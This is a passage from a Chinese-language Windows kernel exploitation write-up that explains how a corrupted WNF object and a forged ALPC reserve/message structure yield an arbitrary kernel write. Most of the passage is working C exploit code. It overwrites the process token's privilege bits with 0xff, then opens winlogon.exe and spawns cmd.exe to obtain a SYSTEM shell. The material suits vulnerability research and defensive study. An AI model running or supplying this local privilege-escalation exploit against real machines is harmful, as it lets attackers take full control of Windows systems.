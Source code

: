 在_KALPC_MESSAGE  
结构中，有两个对我们很有价值的字段：ExtensisonBuffer  
和ExtensionBufferSize  
。当调用NtAlpcSendWaitReceivePort  
时，大小为ExtensionBufferSize  
的用户可控数据会被写入到ExtensionBuffer  
。为了实现任意写入，我们可以让伪造的_KALPC_RESERVE  
结构指向一个伪造的_KALPC_MESSAGE  
结构 (同样在用户空间)，并将ExtensionBuffer  
设置为我们想要写入的目标位置！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP5GjWVWpcFsJHdSZibATFcicBpwib5YHjWwUfUfIARyIcapAIVyzIQOCTXfFBP9ib13ibyA9zCebTUIWw/640?wx_fmt=png&from=appmsg "")  
  
Memory 7  
  
在这种情况下，我们将ExtensionBuffer  
设置为令牌权限 (位于偏移量 0x40 处)，并将ExtensionBufferSize  
设置为 0x10，这样我们就可以写入 16 个\xff  
来启用所有权限：  
```
    printf("[+] Using WNF object 1 to overwrite KALPC_RESERVE\n");
    memset(StateData, 0x0, sizeof(StateData)); 
    memset(StateData, 0x48, 0x200); // Just so that it is easier to see the object
    *(unsigned long long *)(StateData + 0xff0) = (unsigned long long)fakeKalpcReserve;
    state = NtUpdateWnfStateData(&StateNames[CorruptedWNFidx], StateData, 0xff8, NULL, NULL, 0xcafe, NULL); 

    printf("[+] Overwriting token privs\n"); 
    ULONG DataLength = 0x10;
 ALPC_MESSAGE* alpcMessage = (ALPC_MESSAGE*)calloc(1, sizeof(ALPC_MESSAGE));
    memset(alpcMessage, 0, sizeof(ALPC_MESSAGE));
    alpcMessage->PortHeader.u1.s1.DataLength = DataLength;
    alpcMessage->PortHeader.u1.s1.TotalLength = sizeof(PORT_MESSAGE) + DataLength;
    alpcMessage->PortHeader.MessageId = (ULONG)g_hResource;
 ULONG_PTR* pAlpcMsgData = (ULONG_PTR*)((BYTE*)alpcMessage + sizeof(PORT_MESSAGE));
    pAlpcMsgData[0] = 0xffffffffffffffff;
    pAlpcMsgData[1] = 0xffffffffffffffff;

    for (int i = 0; i < portsCount; i++) {
        ret = NtAlpcSendWaitReceivePort(ports[i], ALPC_MSGFLG_NONE, (PPORT_MESSAGE)alpcMessage, NULL, NULL, NULL, NULL, NULL);
    }
```  
  
完成这些之后，我们只需要找到 winlogon 进程的 PID，获取该进程的句柄，然后使用该句柄创建一个 cmd.exe 进程，就可以获得一个 NT AUTHORITY\SYSTEM 权限的 shell！  
```
    // Find PID of winlogon
    PROCESSENTRY32 entry;
    entry.dwSize = sizeof(PROCESSENTRY32);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    HANDLE winlogon_process = 0; 

    if (Process32First(snapshot, &entry) == TRUE) {
        while (Process32Next(snapshot, &entry) == TRUE) {
            if (wcscmp(entry.szExeFile, L"winlogon.exe") == 0) {  
                winlogon_process = OpenProcess(PROCESS_CREATE_PROCESS, FALSE, entry.th32ProcessID);
                printf("[+] Found winlogon: 0x%lx\n", winlogon_process); 
            }
        }
    }
    printf("[+] SHELLZ\n");
    CreateProcessFromHandle(winlogon_process);
```  